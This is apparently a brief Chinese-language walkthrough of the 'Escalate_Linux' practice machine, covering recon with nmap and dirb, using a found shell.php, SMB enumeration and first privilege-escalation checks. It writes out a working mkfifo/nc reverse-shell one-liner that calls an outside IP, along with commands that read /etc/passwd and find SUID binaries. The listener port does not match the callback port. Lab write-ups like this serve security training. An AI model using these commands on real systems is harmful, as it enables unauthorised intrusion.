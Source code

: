 


# Escalate_Linux
这个是一个考验后渗透模块的靶机 重点考察Linux Post Exploitation（特权升级）技术。

## nmap扫描  
发现有smb服务

我们来试试smb枚举

## 补充 路径爆破
dirb 过滤.php 爆出来了一个shell.php


使用cmd作为参数传导 我们随便试一下ls 发现能成 反弹shell试试看
![image.png](https://s2.loli.net/2025/04/30/mfLolbsCA7uiXw6.png)


```
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | sh -i 2>&1 | nc  10.10.250.106 443 >/tmp/f

nc -lvnp 8888
```

在bp进行url的转码  输入之后就能反弹成功了

## smb的信息收集
用nmap脚本枚举和smbclient，smbmap来枚举smb服务的信息
```
smbclient -L 

nmap --script smb-enum-shares --script-args smbuser=user,smbpass=pass 61.139.2.163


```
![image.png](https://s2.loli.net/2025/04/30/HouYdOxcfX7AB3V.png)


![image.png](https://s2.loli.net/2025/04/30/8tXVxsONcyIzqJf.png)

```
enum4linux -a 枚举出了所有的用户
```

![image.png](https://s2.loli.net/2025/04/30/OXfCoVGLqU83MrA.png)


## 进去之后的信息收集
我们先把基本需要的信息先查看一下 据说有十二种提权方法 得学习学习

```
cat /etc/passwd

find / -perm -u=s -type f 2>/dev/null
```
